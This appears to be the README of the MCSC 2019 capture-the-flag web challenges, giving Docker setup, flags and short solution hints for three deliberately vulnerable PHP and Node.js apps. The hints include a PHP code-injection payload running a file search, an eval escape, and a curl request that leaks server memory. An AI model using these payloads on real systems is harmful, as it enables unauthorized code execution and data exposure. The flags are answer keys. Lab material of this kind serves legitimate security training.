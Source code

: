 ## MCSC 2019 Web Security Challenges
>thinbashane < @art0flunam00n >

**1.web100 - lolslashes**

Description 
 - get RCE & read the `fl4g` file

Flag
 - `MCSC_2019{php_v4ri4bl3s_v4ri4ble}`

Setting up
 - `cd web100` - change directory to the challenge
 - `docker build .` - build from Dockerfile
 - `docker run -p 1331:80 <built_hash>` - run docker containter
 - `http://<IP_ADDRESS>:1331` - Challenge Access URL

Writeup
 - releases after competition
 - `string1=${phpinfo()}`
 ```
 string1=${`find / -name fl4g`}
```
---
**2.web200a - lolevil**

Description
 - get RCE & read the `fl4g` file

Flag
 - `MCSC_2019{php_3val_0bj3ct_r3ferencing}`

Setting up
 - `cd web200a` - change directory to the challenge
 - `docker build .` - build from Dockerfile
 - `docker run -p 1332:80 <built_hash>` - run docker containter
 - `http://<IP_ADDRESS>:1332` - Challenge Access URL

Writeup
 - releases after competition
 - Reference `r:2` to authorize 
 - and escape eval `'.phpinfo().'`
---

**3.web200b - lolnode**

Description
 - read the `flag` in memory

Flag
 - `MCSC_2019{n0d3_j5_m3m0ry_L3ak}`

Setting up
 - `cd web200b` - change directory to the challenge
 - `docker build .` - build from Dockerfile
 - `docker run -p 3000:3000 <built_hash>` - run docker containter
 - `http://<IP_ADDRESS>:3000` - Challenge Access URL

Writeup

 - release after competition
 - `curl 'http://<ip>:<port>/login -X POST -H "Content-Type: application/json" --data "{\"password\":100}" | hexdump -c`

